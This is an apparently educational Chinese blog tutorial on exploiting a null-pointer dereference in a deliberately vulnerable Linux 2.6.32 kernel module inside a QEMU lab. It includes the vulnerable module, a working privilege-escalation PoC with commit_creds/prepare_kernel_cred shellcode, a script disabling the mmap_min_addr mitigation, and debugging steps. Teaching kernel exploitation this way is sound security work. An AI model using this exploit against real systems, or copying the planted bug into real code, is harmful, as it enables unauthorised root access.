




# how2kernel————第二节null dereference

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>环境搭建完了，我们就来先学一下最简单的null dereference的kernel漏洞利用，顾名思义，对未初始化的指针进行引用就会寻址到0地址，也就是null引用。如果程序中存在未初始化的函数指针，调用这个指针就会有一个类似call 0x00000000的行为。我们先来看一下32位下程序的内存分布：</font></br>



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以假设我们有一个存在null dereference的漏洞的内核模块，当我们用一个用户进程去访问时，**mmap映射一块从0开始的内存**，然后在这块内存中布置好shellcode，然后调用未初始化函数指针时就会去调用我们的shellcode，完成提权攻击。所以有如下漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
void (*my_funptr)(void);
int bug1_write(struct file *file,const char *buf,unsigned long len)
{
        my_funptr();
        return len;
}
static int __init null_dereference_init(void)
{
        printk(KERN_ALERT "null_dereference driver init!\n");
        create_proc_entry("bug1",0666,0)->write_proc = bug1_write;
       return 0;
}
static void __exit null_dereference_exit(void)
{
        printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>看不懂内核代码也没事，我们即使看到init和exit也可以猜测到这是**注册了初始化函数和退出函数**。内核驱动的模块创建有一个约定就是用**module\_init注册驱动创建的主函数**，然后用**module_exit注册驱动的清理与卸载函数**。这里我们用了null_dereference_init作为注册函数，然后函数很简单，没有申请设备号，没有注册设备，只是设置了一个入口函数，就是我们的漏洞函数bug1_write（**用create_proc_entry返回的结构直接访问write_proc在高版本内核中已不可行**），**bug1_write调用了一个未初始化的函数指针**。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们看我们的用户层测试代码：</font></br>

```C
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

// xor eax,eax
// call prepare_kernel_cred 
// call commit_creds
// ret
// 等价于 commit_creds(parepare_kernel_cred(0));
char payload[] = "\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3";

int main(){
    mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanda", 5);
    system("/bin/sh");
    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>当执行这个程序的时候，内存分布图是这样的</font>：</br>



- mmap映射了最低处内存0的大小为0x1000的一块内存（并不是物理地址，是虚拟地址）；
- 在这块内存上布置了shellcode；
- 打开了之前创建的内核模块后调用write与之交互触发write_proc函数也就是我们之前设置为的bug1_write；
- null dereference访问到了mmap的内存处，执行了我们的shellcode。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终内存分布图是这样的：</font></br>



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我的Makefile:</font></br>

```makefile
obj-m := null_dereference.o  

KERNELDR := /home/fanda/Desktop/file/linux-2.6.32.1
BUSYDIR  := /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest
PWD := $(shell pwd)  

modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
	gcc -o poc poc.c -static
	cp *.ko $(BUSYDIR)
	cp poc $(BUSYDIR)
	cd $(BUSYDIR)/../ && find . | cpio -o --format=newc > ../rootfs.img
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们在qemu虚拟机里创建用户进行测试，为了避免麻烦我们直接写一个脚本（makeuser.sh）用来安装模块创建用户，并重新用cpio生成文件镜像：</font></br>

```shell
#!/bin/sh

insmod *.ko
mkdir -p /home/fanda
touch /etc/passwd
touch /etc/group
adduser fanda

sysctl -w vm.mmap_min_addr="0"
su fanda

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这一句sysctl -w vm.mmap_min_addr="0"是什么意思？是因为在这个内核版本中内核已经有了**设置mmap的最小地址为0x1000**作为缓解措施，所以我们要关闭之。运行poc：</font></br>

```shell
/mytest # su fanda
/mytest $ ./poc
/mytest # whoami
whoami: unknown uid 0
/mytest # id
uid=0 gid=0
/mytest # exit
/mytest $ 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到测试成功，我们成功完成提权。</font></br>


## 附录

**get shellcode**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先编写asm文件：</font></br>

```assembly
Section .text
        global _start
_start:
	xor eax,eax
	call 0xc1067fc0
	call 0xc1067e20
	ret

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为我比较懒，所以直接写了个脚本编译链接：</font></br>

```shell
#!/bin/sh

nasm -f elf32 null_dereference.asm  -o null_dereference.o
ld -s -Ttext=0  null_dereference.o -o null_dereference

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接使用objdump -s null_dereference就可以得到机器码了，不确定自己有没有写对的话就用-S参数看看汇编：</font></br>

```shell
➜  null_dereference objdump -S null_dereference

null_dereference:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 b9 7f 06 c1       	call   0xc1067fc0
   7:	e8 14 7e 06 c1       	call   0xc1067e20
   c:	c3                   	ret   
➜  null_dereference objdump -s null_dereference

null_dereference:     file format elf32-i386

Contents of section .text:
 0000 31c0e8b9 7f06c1e8 147e06c1 c3        1........~...  
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>（此处再重复）因为我很懒所以我又写了个脚本：</font></br>

```python
import binascii
import sys

if __name__ == '__main__':

	result=''
	opcode=''
	for i in sys.argv[1:]:
		result+=binascii.a2b_hex(i)
	
	for i in result:
		opcode+='\\x'+hex(ord(i))[2:]

	print opcode

```

```shell
➜  shellcode python getopcode.py 31c0e8b9 7f06c1e8 147e06c1 c3
\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就能得到我们最终的shellcode了，等等，这两个call的绝对地址是怎么来的？为什么是这两个函数？</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在kernel中，给进程赋予root权限就是用prepare_kernel_cred()函数，参数用0表示root，然后commit_creds函数就是相当于提交凭证，就可以完成提权了，在我们用qemu生成的内核虚拟机的终端中用**grep prepare_kernel_cred /proc/kallsyms**就可以得到这些地址了（**前提是内核未开启地址泄漏保护**），同理也可以得到commit_creds函数的地址：</font></br>

```shell
/ # grep prepare_kernel_cred /proc/kallsyms 
c1067fc0 T prepare_kernel_cred
c15fcf3c r __ksymtab_prepare_kernel_cred
c1606504 r __kcrctab_prepare_kernel_cred
c160d1f9 r __kstrtab_prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms 
c1067e20 T commit_creds
c11bc6f0 T security_commit_creds
c15fcf5c r __ksymtab_commit_creds
c1606514 r __kcrctab_commit_creds
c160d235 r __kstrtab_commit_creds
/ # 
```


**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>之前我们开启qemu虚拟机的时候用了-s参数开启了远程调试端口，所以我们只需要用**gdb的target remote：1234就能attach上去了**，还有一些要注意的是gdb要选取**linux kernel文件夹下的vmlinux作为调试文件**。然后最好添加**symbol文件**方便直接下断点，后面要跟一个模块基地址，基地址可以在insmod安装之后用这个命令取得：</font></br>

```shell
/mytest # cat /proc/modules 
null_dereference 725 0 - Live 0xc8831000 (P)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>为了方便我还是写了一个gdbscript：</font></br>

```shell
➜  kernel cat gdbscript 
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/null_dereference.ko  0xc8831000
b bug1_write
target remote :1234
c
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以调试步骤是：</font></br>

- 先用（第一节的）boot.sh启动qemu虚拟机；
- 虚拟机里用makeuser.sh创建用户，安装模块，关闭保护；
- 用gdbscript attach上远程调试端口下断后继续执行。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终效果如下：</font></br>



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>单步进入null dereference的函数之后可以看到我们的shellcode：</font></br>


